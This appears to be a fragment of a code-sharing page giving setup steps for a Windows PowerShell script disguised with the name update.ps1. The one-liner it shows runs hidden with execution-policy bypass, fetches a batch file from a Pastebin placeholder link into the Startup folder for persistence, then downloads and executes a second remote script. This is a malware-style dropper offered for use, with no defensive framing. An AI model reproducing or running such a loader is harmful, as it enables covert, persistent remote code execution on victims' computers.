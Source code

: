 Save update.ps1 to $env:userprofile\AppData\Roaming then run the bat file


powershell -w h -NoP -NonI -Ep Bypass "echo (iwr PASTEBIN LINK FOR BAT).content > "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\l.bat";echo (iwr PASTEBIN LINK FOR PS1).content > "$env:APPDATA\c.ps1";powershell "$env:APPDATA\c.ps1""
